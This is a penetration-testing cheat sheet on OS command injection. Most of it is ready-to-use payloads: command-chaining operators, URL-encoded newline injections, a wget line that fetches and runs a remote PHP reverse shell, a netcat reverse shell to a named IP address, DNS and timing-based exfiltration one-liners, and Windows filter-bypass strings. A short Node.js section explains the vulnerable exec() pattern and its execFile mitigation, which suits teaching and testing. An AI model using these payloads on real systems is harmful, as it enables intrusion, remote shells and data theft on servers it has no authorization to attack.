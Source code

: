 # Command Injection


## What is command Injection?

A **command injection** permits the execution of arbitrary operating system commands by an attacker on the server hosting an application. As a result, the application and all its data can be fully compromised. The execution of these commands typically allows the attacker to gain unauthorized access or control over the application's environment and underlying system.

### Context

Depending on **where your input is being injected** you may need to **terminate the quoted context** (using `"` or `'`) before the commands.

## Command Injection/Execution

```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)
ls%0abash%09-c%09"id"%0a   # (Combining new lines and tabs)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
```
### **Limition** Bypasses

If you are trying to execute **arbitrary commands inside a linux machine** you will be interested to read about this **Bypasses:**

[[../linux-hardening/bypass-bash-restrictions/]]

### **Examples**

```
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```
```
### Parameters

Here are the top 25 parameters that could be vulnerable to code injection and similar RCE vulnerabilities (from [[https://twitter.com/trbughunters/status/1283133356922884096)|link]]:

```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```
```
### Time based data exfiltration

Extracting data: char by char

```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```
```
### DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```
```
```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```
```
Online tools to check for DNS based data exfiltration:

- dnsbin.zhack.ca
- pingb.in

### Filtering bypass

#### Windows

```
powershell C:**2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:**32\c*?c.e?e # calc
```
```
#### Linux

[[../linux-hardening/bypass-bash-restrictions/]]

### Node.js `child_process.exec` vs `execFile`

When auditing JavaScript/TypeScript back-ends you will often encounter the Node.js `child_process` API.

```javascript
// Vulnerable: user-controlled variables interpolated inside a template string
const { exec } = require('child_process');
exec(`/usr/bin/do-something --id_user ${id_user} --payload '${JSON.stringify(payload)}', (err, stdout) => {
  /* … */
});
```
```
`exec()` spawns a **shell** (`/bin/sh -c`), therefore any character that has a special meaning to the shell (back-ticks, `;`, `&&`, `|`, `$()`, …) will result in **command injection** when user input is concatenated in the string.

**Mitigation:**  use `execFile()` (or `spawn()` without the `shell` option) and provide **each argument as a separate array element** so no shell is involved:

```javascript
const { execFile } = require('child_process');
execFile('/usr/bin/do-something', [
  '--id_user', id_user,
  '--payload', JSON.stringify(payload)
]);
```
```
Real-world case: *Synology Photos* ≤ 1.7.0-0794 was exploitable through an unauthenticated WebSocket event that placed attacker controlled data into `id_user` which was later embedded in an `exec()` call, achieving RCE (Pwn2Own Ireland 2024).

## Brute-Force Detection List

[[https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt]]

## References

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection]]
- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection]]
- [[https://portswigger.net/web-security/os-command-injection|https://portswigger.net/web-security/os-command-injection]]
- [[https://www.synacktiv.com/publications/extraction-des-archives-chiffrees-synology-pwn2own-irlande-2024.html|Extraction of Synology encrypted archives – Synacktiv 2025]]
- [[https://www.php.net/manual/en/function.proc-open.php|PHP proc_open manual]]
- [[https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html|HTB Nocturnal: IDOR → Command Injection → Root via ISPConfig (CVE‑2023‑46818)]]

